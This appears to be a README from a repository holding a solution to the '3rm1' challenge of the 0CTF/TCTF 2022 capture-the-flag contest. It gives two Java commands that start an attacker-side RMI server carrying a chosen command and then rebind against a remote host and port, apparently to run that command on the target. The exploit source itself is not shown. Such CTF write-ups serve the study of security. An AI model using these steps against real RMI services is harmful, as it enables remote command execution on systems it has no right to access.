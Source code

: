 # 0ctf-2022-soln-3rm1
solution to 3rm1 of 0CTF/TCTF 2022

```sh
# This is a solution to 3rm1
# Usage: (replace L_HOST, L_PORT, R_HOST, R_PORT and CMD with yours)
java -Djava.rmi.server.logCalls=true -Djava.rmi.server.hostname=L_HOST -cp soln-all.jar soln.ServerKt CMD L_PORT
java -cp soln-all.jar soln.RebindKt L_PORT R_HOST R_PORT
```
